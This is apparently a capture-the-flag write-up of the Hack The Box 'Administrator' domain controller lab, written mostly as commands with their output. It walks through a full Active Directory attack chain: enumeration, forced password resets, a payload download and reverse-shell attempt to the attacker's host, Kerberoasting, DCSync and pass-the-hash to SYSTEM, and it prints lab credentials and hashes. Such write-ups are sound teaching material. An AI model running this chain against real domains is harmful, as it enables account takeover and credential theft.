


## Port Scan
1. TCP Port Scan
```
# Nmap 7.95 scan initiated Sun Feb  1 21:41:07 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap 10.129.12.119
Warning: 10.129.12.119 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.12.119
Host is up (0.047s latency).
Not shown: 65305 closed tcp ports (reset), 204 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
61760/tcp open  unknown
61765/tcp open  unknown
61772/tcp open  unknown
61777/tcp open  unknown
61794/tcp open  unknown
64411/tcp open  unknown

# Nmap done at Sun Feb  1 21:41:16 2026 -- 1 IP address (1 host up) scanned in 9.36 seconds
```
2. UDP port scan
```
# Nmap 7.95 scan initiated Sun Feb  1 21:41:11 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap 10.129.12.119
Nmap scan report for 10.129.12.119
Host is up (0.094s latency).
Not shown: 65532 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
9654/udp  closed unknown
34210/udp closed unknown
48533/udp closed unknown

# Nmap done at Sun Feb  1 21:41:22 2026 -- 1 IP address (1 host up) scanned in 11.05 seconds
```
3. Script and Version scan
```
sudo nmap -Pn 10.129.12.119 -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,61760,61765,61772,61777,61794,64411 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
# Nmap 7.95 scan initiated Sun Feb  1 21:47:39 2026 as: /usr/lib/nmap/nmap -Pn -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668,61760,61765,61772,61777,61794,64411 --min-rate 20000 -oN nmap/scriptVersionScan.nmap 10.129.12.119
Nmap scan report for 10.129.12.119
Host is up (0.015s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-02 09:47:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
61760/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
61765/tcp open  msrpc         Microsoft Windows RPC
61772/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  msrpc         Microsoft Windows RPC
61794/tcp open  msrpc         Microsoft Windows RPC
<SNIP>
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-02T09:48:44
|_  start_date: N/A
|_clock-skew: 7h00m00s
```
## Uncredentialed Enumeration
1. FTP anonymous login failed
```sh
ftp 10.129.12.119
```
Output:
```
Connected to 10.129.12.119.
220 Microsoft FTP Service
Name (10.129.12.119:kali): anonymous
331 Password required
Password: 
530 User cannot log in.
ftp: Login failed
```
2. Enum4linux did not show anything
```sh
enum4linux 10.129.12.119 -A  -C | tee enum4linux.txt 
enum4linux 10.129.12.119 -A | tee enum4linux.txt 
```
To verify,
```sh
rpcclient -N -U "" 10.129.12.119
```
- Can login but all output is `result was NT_STATUS_ACCESS_DENIED`
```sh
netexec smb 10.129.12.119 -u '' -p '' --shares
```
Output:
```
SMB         10.129.12.119   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.12.119   445    DC               [+] administrator.htb\: 
SMB         10.129.12.119   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```
- Can login but `STATUS_ACCESS_DENIED`
3. LDAP
```sh
ldapsearch -b "dc=administrator,dc=htb" -s sub "*" -H ldap://10.129.12.119 -x -LLL
```
Output:
```
Operations error (1)
Additional information: 000004DC: LdapErr: DSID-0C090C78, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4f7c
```
- We need valid creds
4. Kerbrute returned 1 valid username
```sh
./kerbrute userenum -d administrator.htb --dc 10.129.12.119 ~/Tools/statistically-likely-usernames/smith.txt -o ~/hackthebox/Administrator/kerbrute.out
```
Output:
```
2026/02/01 22:24:32 >  [+] VALID USERNAME:       dc@administrator.htb
```
5. Try to ASREPRoast
```sh
impacket-GetNPUsers administrator.htb/ -dc-ip 10.129.12.119 -no-pass -usersfile USERSFILE
```
Output:
```
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dc doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- We need more usernames
6. Lol ok, apparently 1 cred was provided
## Credentialed Enumeration
1. FTP
```sh
ftp 10.129.12.119
```
Output:
```
Connected to 10.129.12.119.
220 Microsoft FTP Service
Name (10.129.12.119:kali): Olivia
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> exit
221 Goodbye.
```
2. RPC
```sh
rpcclient -U administrator.htb/Olivia%ichliebedich 10.129.12.119
```
Output:
```
rpcclient $> svrinfo
command not found: svrinfo
rpcclient $> srvinfo
        10.129.12.119  Wk Sv PDC Tim NT     
        platform_id     :       500
        os version      :       10.0
        server type     :       0x80102b
```

```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
```
3. SMB
```sh
netexec smb 10.129.12.119 -u 'Olivia' -p 'ichliebedich' -M spider_plus -o DOWNLOAD_FLAG=True
```
List shares
```
netexec smb 10.129.12.119 -u 'Olivia' -p 'ichliebedich' --shares                            
SMB         10.129.12.119   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.12.119   445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.12.119   445    DC               [*] Enumerated shares
SMB         10.129.12.119   445    DC               Share           Permissions     Remark
SMB         10.129.12.119   445    DC               -----           -----------     ------
SMB         10.129.12.119   445    DC               ADMIN$                          Remote Admin
SMB         10.129.12.119   445    DC               C$                              Default share
SMB         10.129.12.119   445    DC               IPC$            READ            Remote IPC
SMB         10.129.12.119   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.12.119   445    DC               SYSVOL          READ            Logon server share 
```
- Will refer back if there is nothing else.
4. Let's enumerate LDAP
```sh
ldapsearch -b "DC=administrator,DC=htb" -s sub "*" -H ldap://10.129.12.119 -x -LLL -w ichliebedich -D "administrator.htb\\Olivia"
```
Output:
```
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C09050E, comment: AcceptSecurityContext error, data 52e, v4f7c
```
5. We can access WinRM
```sh
evil-winrm -i 10.129.12.119 -u 'administrator.htb\Olivia'
```
6. Let's try kerberoasting
```sh
impacket-GetUserSPNs -dc-ip 10.129.12.119 administrator.htb/Olivia
```
- Nothing
7. Somehow, bloodhound can collect information
```sh
faketime "$(ntpdate -q 10.129.12.119 | cut -d ' ' -f 1,2)" \
bloodhound-ce-python -u 'Olivia' -p 'ichliebedich' -ns 10.129.12.119 -dc administrator.htb -d administrator.htb -c all
```
## Shell
1. Groups
```
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
2. Privilege information
```
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
3. CMDKeys
```
cmdkey /list
```
Output:
```
Currently stored credentials:

* NONE *
```
4. Nothing from LaZagne
```
./LaZagne.exe all -v
```
5. Alright I got stuck and with some hints, I realised this in BloodHound:

6. We can change the passwords of Micheal, then Benjamin. (Remember to send Powerview.ps1 over)
```powershell
$SecPassword = ConvertTo-SecureString 'ichliebedich' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\olivia', $SecPassword) 

$Password = ConvertTo-SecureString 'password123' -AsPlainText -Force
Set-DomainUserPassword -Identity michael -AccountPassword $Password -Credential $Cred -Verbose
```
Output:
```
Verbose: [Get-PrincipalContext] Using alternate credentials
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'michael'
Verbose: [Set-DomainUserPassword] Password for user 'michael' successfully reset
```
Then change password of Benjamin
```powershell
$SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\michael', $SecPassword) 

$Password = ConvertTo-SecureString 'password123' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $Password -Credential $Cred -Verbose
```
Output:
```
Verbose: [Get-PrincipalContext] Using alternate credentials
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'benjamin'
Verbose: [Set-DomainUserPassword] Password for user 'benjamin' successfully reset
```
- New passwords are `password123`
7. Since Benjamin is not part of the Remote Management Users, I will use [RunAsC](https://github.com/antonioCoco/RunasCs/tree/master) 
```sh
iwr http://10.10.16.26:8000/RunasCs.exe -OutFile RunasCs.exe
./RunasCs.exe benjamin password123 powershell.exe -r 10.10.16.26:9999 -l 3 
```
- Does not work tho
8. We can login as Micheal
```sh
evil-winrm -i 10.129.12.119 -u 'administrator.htb\michael'
```
Output:
```
whoami
administrator\michael
```
9. We can log into the FTP service as Benjamin!
```sh
ftp 10.129.12.119
```
Output:
```
Connected to 10.129.12.119.
220 Microsoft FTP Service
Name (10.129.12.119:kali): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||60084|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
```
10. We can download the file and extract the hash with `pwsafe2john`
```sh
pwsafe2john Backup.psafe3
```
Output:
```
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```
11. Then, use john to crack the hash
```
john newhash --wordlist=/usr/share/wordlists/rockyou.txt
```
Output:
```
tekieromucho     (Backu) 
```
12. To open the file, we can use
```
pwsafe Backup.psafe3
```
- We get valid creds!
13. Then, login as Emily.
## Privilege Escalation
1. Based on BloodHound, there is one path for us to DCSync the domain. 
2. As Emily, we will give Ethan a service principal name
```powershell
$SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\emily', $SecPassword) 

Set-DomainObject -Credential $Cred -Identity 'ethan' -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
3. The user is now Kerberoastable
```sh
impacket-GetUserSPNs -dc-ip 10.129.192.242 administrator.htb/Olivia
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
```
Output:
```
Password:
ServicePrincipalName  Name   MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  -----  --------  --------------------------  ---------  ----------
notahacker/LEGIT      ethan            2024-10-12 16:52:14.117811  <never> 
```
4. Request the TGT ticket and bruteforce with hashcat
```sh
faketime "$(ntpdate -q 10.129.192.242 | cut -d ' ' -f 1,2)" \
impacket-GetUserSPNs -dc-ip 10.129.192.242 administrator.htb/Olivia -request -outputfile tgs_tickets

hashcat -m 13100 tgs_tickets /usr/share/wordlists/rockyou.txt
```
Output:
```
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$73a74..<SNIP>..c235f:limpbizkit
```
5. Now, we can perform DCSync on the controller to retrieve the password hashes
```sh
imapacket-secretsdump -outputfile administratorDc_hashes -just-dc administrator.htb/ethan@10.129.192.242
```
Output:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```
6. To get SYSTEM on the machine,
```sh
impacket-psexec administrator.htb/administrator@10.129.192.242 -hashes aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e
```
Output:
```
C:\Windows\system32> whoami
nt authority\system
```
